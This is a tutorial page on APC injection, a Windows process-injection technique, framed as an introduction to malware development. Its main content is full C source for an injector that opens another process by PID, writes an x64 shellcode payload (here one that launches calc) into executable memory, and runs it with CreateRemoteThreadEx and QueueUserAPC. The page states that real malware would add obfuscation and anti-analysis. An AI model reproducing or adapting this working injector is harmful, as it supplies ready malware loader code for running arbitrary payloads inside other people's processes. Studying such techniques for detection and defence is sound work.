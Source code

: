 ```yaml
---
description: >-
  Asynchronous Procedure Calls (APCs) are Windows operating system mechanism
  that enables programs to execute tasks asynchronously while continuing to run
  other tasks.
---
```


# APC Injection

## Introduction

APC Injection is a more stealthy and advanced form of process injection, it is a well known technique with many variations. Heres a fiew:

* QueueUserAPC APC Injection (Most common)
* NtQueueApcThread APC Injection
* Early Bird Injection
* AtomBombimg
* Reflective DLL Injection - Can be used in conjunction with APC.



### Alertable State

Not all threads can run a queued APC function, only threads in an _**alterable state**_ can do so.





## QueueUserAPC Injection

Here is the most basic example of APC Injection utilizing the QueueUserAPC Win32 Function & CreateRemoteThreadEx. It works by allocating memory in an external process (VirtualAllocEx), copying the payload to the allocated memory, and executing it with QueueUserAPC. We use Sleep() as our basic function of choice to put the thread in an alertable state.

_<mark style="color:red;">**NOTE:**</mark>_ Obviously this is unpractical as it's the most basic example. Thread hijacking, obfuscations, deletion, amongst other anti analysis techniques are all things that are required in modern malware development.



```c
#include <wchar.h>
#include <stdio.h>
#include <windows.h>


// x64 calc shellcode 
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};


int wmain(int argc, wchar_t* argv[]) {

    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    LPVOID lpBuffer = NULL;
    
    DWORD PID = _wtoi(argv[1]);

    wprintf(L" PID: %d\n", PID);
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, PID);
    if (hProcess == NULL) {
        wprintf(L"Failed to Create Process Handle %d\n", GetLastError());
        return -1;
    }
    // Allocate Memory in External Process
    lpBuffer = VirtualAllocEx(hProcess, NULL,  sizeof(Payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpBuffer == NULL) {
        wprintf(L"Failed to Allocate Buffer %d\n", GetLastError());
        return -1;
    }

    wprintf(L"Alloced Buffer in External Process: %d - Address: %p\n", PID, lpBuffer);

    WriteProcessMemory(hProcess, lpBuffer, Payload, sizeof(Payload), NULL);

    hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBuffer, NULL, 0, NULL, NULL);
    if (hThread == NULL) {
        wprintf(L"Failed to Create Thread %d\n", GetLastError());
        return -1;
    }

    if (!QueueUserAPC((PAPCFUNC)lpBuffer, hThread, NULL)) {
        wprintf(L"Failed to Execute Payload via QueueUserAPC %d\n", GetLastError());
    }
    Sleep(3000);

    // Cleanup
    VirtualFree(lpBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```

##

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-25 173151.png" alt=""><figcaption></figcaption></figure>

## &#x4D;_**ore on Asynchronous Procedure Calls:**_

{% embed url="https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls" %}
